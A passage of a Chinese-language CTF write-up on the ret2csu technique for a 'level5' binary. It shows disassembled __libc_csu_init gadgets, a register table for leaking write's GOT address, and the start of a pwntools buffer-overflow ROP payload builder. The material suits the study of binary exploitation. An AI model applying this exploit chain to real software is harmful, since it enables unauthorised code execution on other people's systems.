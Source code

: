 ```cobol
.text:000000000040063A                 pop     rbx
.text:000000000040063B                 pop     rbp
.text:000000000040063C                 pop     r12
.text:000000000040063E                 pop     r13
.text:0000000000400640                 pop     r14
.text:0000000000400642                 pop     r15
.text:0000000000400644                 retn
.text:0000000000400644 ; } // starts at 4005E0
.text:0000000000400644 __libc_csu_init endp
.text:0000000000400644
```

我们仔细观察可以发现在0x000000000040063A到0x0000000000400644的gadget可以让我们控制到rbx、rbp、r12、r13、r14、r15.而0x0000000000400620到0x0000000000400629的gadget我们可以让我们通过rbx、rbp、r12、r13、r14、r15寄存器可以让我们间接控制rdx、rsi、edi甚至在rbx、rbp合理的情况（rbx值为0，rbp为1）下可以让我们call一个函数。

#### leve5

以leve5为例来说，我们可以通过之前说的`__libc_csu_init`中的那两个gadget来控制一个来函数。先查看leve5属性.

![image-20201014161839287]( image-20201014161839287.png)

查看文件,发现没有命令执行函数与`/bin/sh`,要通过write出实际地址，计算偏移找libc。

同时，write要3个参数：write (int fd, const void * buf, size_t count)



```
----------------------------------
| 寄存器和指令 |      存储数据      | 
----------------------------------
|    rdi     |        1          | rdi存放第一参数，标准输出文件描述符：fd = 1
----------------------------------
|    rsi     |     write_got     | rsi存放第二参数，需要输出的内存地址：*buf = write_got
----------------------------------
|    rdx     |        8          | rdx存放第三参数，输出字节数：count = 8
----------------------------------
|    call    |     write_got     | call write_got调用write函数
----------------------------------
```

所以我们要rdi，rsi，rdx三个寄存器，因此我们可以用__libc_csu_init里的gadgets来控制rbx、rbp、r12、r13、r14、r15来间接控制 rdi, rsi, rdx。 ![image-20201014223603871]( image-20201014223603871.png)

同样的方式来调用read将shell写入，及调用写入的shell：

```python
from pwn import *
from LibcSearcher import LibcSearcher
import pwnlib

context.terminal = ['tmux', 'splitw', '-h']

p=process('./level5')

e=ELF('./level5')

bss_addr=0x601028  #e.bss()

# rbx rbp r12 r13 r14 r15 
def csu(g1,g2,buf,rbx,rbp,r12,r13,r14,r15,lest_cell):
	pay='a'*buf+p64(0)
    pay=pay+p64(g1)+p64(0)
	pay=pay+p64(rbx)+p64(rbp)
	pay=pay+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    pay=pay+p64(g2)
	pay=pay+'\00'*0x38+p64(lest_cell)
```